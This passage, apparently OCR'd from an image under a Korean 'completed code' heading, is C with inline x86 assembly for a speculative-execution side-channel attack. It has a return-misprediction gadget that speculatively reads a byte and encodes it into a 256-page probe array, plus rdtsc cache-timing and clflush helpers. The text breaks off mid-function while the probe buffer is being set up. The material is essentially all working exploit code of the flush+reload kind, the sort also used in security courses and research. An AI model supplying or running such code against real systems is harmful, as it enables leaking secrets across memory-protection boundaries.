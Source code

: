 ### 완성된 코드

```c
#include <stdio.h>
#include <sys/mman.h>

#define PAGE_SIZE 4096

extern void specu(void *, char (*)[4096]);
asm(
".section .text\n"
".global specu\n"
"specu:\n"
"	mfence\n"
"	call 1f\n"
"	movzbl (%rdi), %eax\n"
"	shll $12, %eax\n"
"	movq (%rax, %rsi), %rcx\n"
"1:	xorps %xmm0, %xmm0\n"
"	aesimc %xmm0, %xmm0\n"
"	aesimc %xmm0, %xmm0\n"
"	aesimc %xmm0, %xmm0\n"
"	aesimc %xmm0, %xmm0\n"
"	movd %xmm0, %eax\n"
"	lea 8(%rsp, %rax), %rsp\n"
"	ret\n"
);

extern unsigned long long measure_time(void const *);
asm(
".section .text\n"
".global measure_time\n"
"measure_time:\n"
"	mfence\n"
"	lfence\n"
"	rdtsc\n"
"	lfence\n"
"	movq %rax, %rcx\n"
"	movb (%rdi), %al\n"
"	lfence\n"
"	rdtsc\n"
"	subq %rcx, %rax\n"
"	ret\n"
);

extern void clflush(void *);
asm(
".section .text\n"
".global clflush\n"
"clflush:\n"
"	mfence\n"
"	clflush (%rdi)\n"
"	retq\n"
);

void estimate_byte(void *addr) {
	char (*mapping)[PAGE_SIZE];
	mapping = mmap(NULL, PAGE_SIZE * 256, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if(mapping == MAP_FAILED)
	{
		perror("mmap mapping");
		exit(-1);
```